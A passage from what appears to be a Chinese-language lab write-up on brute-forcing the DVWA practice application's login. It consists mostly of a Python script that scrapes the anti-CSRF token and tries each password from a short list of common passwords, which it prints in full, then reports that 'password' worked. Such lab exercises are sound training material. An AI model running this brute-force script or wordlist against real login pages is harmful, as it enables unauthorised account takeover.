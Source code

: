 ```python
    token = re.search(r'[a-z0-9]{32}', resp.text).group()
    # print 'user_token : ', token
    password = line.strip()
    url2 = 'http://172.16.163.192/dvwa/vulnerabilities/brute/?username=admin&password=' + password +'&Login=Login&user_token=' + str(token)
    # print url
    resp = dvwa_session.get(url2, headers=header)

    # print password.strip(), len(resp.text)
    if len(resp.text)!=5031:
        print "admin find password:",password
file.close()

pass1.txt
123456
1234567
12345678
1q2w3e4r
qaz123wsx
123!@#qwe
123qweasdzxc
qweasdzxc
111111
5201314
admin
admin123
admin888
root@123
password
P@ssword
888888
```
运行结果：
![Alt text](../src/BruteForce/1513059634271.png)
对比结果看到，密码为password时返回的长度不太一样，手工验证，登录成功，爆破完成。
